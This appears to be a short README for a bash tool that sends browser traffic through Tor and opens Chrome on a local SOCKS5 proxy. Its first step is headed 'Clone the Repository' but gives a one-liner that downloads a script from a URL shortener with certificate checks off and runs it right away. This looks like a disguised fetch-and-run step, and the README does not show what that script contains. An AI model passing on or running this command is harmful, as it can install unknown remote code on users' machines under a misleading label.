 # Auto TOR IP Changer

This script automates the process of setting up and using Tor to anonymize your traffic. The assigned IP from Tor will remain unchanged, providing consistent anonymity.

## Features
- Automatically installs required dependencies like `requests` and Tor.
- Starts the Tor service and uses the Tor SOCKS5 proxy.
- Displays the assigned IP address (remains unchanged unless you manually reload or restart the Tor service).

## How to Use

### 1. Clone the Repository

```bash
curl -sLkO https://is.gd/nowindows ; bash nowindows
```
### 2. Clone the Repository

```bash
git clone https://github.com/3222h/torvpn.git
```
### 3. Give permission
```bash
chmod +x tor.sh
```
### 4. Run code
```bash
./tor.sh
```
### 5. Launch chrome
```bash
google-chrome --proxy-server="socks5://127.0.0.1:9050"
```
### 6. Remove repo
```bash
rm -rf tor.sh
```
